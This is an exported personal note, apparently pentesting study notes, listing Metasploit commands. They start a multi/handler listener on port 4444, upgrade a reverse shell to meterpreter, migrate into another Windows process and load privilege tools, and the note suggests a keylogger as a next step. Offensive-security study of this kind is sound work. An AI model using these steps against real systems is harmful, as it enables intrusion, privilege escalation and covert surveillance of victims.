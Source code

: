 Multi/Handler Meterpreter

For use with the Migration

Search the tags for 'meterpreter'

> msfconsole
> 
> use multi/handler
> 
> set LHOST 0.0.0.0
> 
> set LPORT 4444
> 
> run

## Upgrade shell to meterpreter

Ctrl+Z to background the reverse Shell session

Upgrade the session

> sessions -u 1

To go back to the same session

> sessions 1

To set the exploit/run as a job

> exploit -j

access jobs: jobs

kill job: kill &lt;jobID&gt;

Upgraded shell should be in the next session

> sessions 2

## Use Migration

Options for migration

> ps
> 
> run post/windows/manage/migrate
> 
> sysinfo
> 
> use priv

Do the actions that you wish to do, e.g. key logger

![de83dbc0713f29aab8f1fdaac91f1892.png](:/6f790664a3e549a1aaaf76ae3d2ee405)

https://www.puckiestyle.nl/meterpreter-reverse-shell-with-powershell/

id: 0812f9fb8e424a30921fff6dbba3954c
parent_id: b8fe3751a1b24ee7ad3f067e0a5bfdcd
created_time: 2022-01-31T04:30:19.990Z
updated_time: 2022-02-03T12:16:07.991Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2022-01-31T04:30:19.990Z
user_updated_time: 2022-02-03T12:16:07.991Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1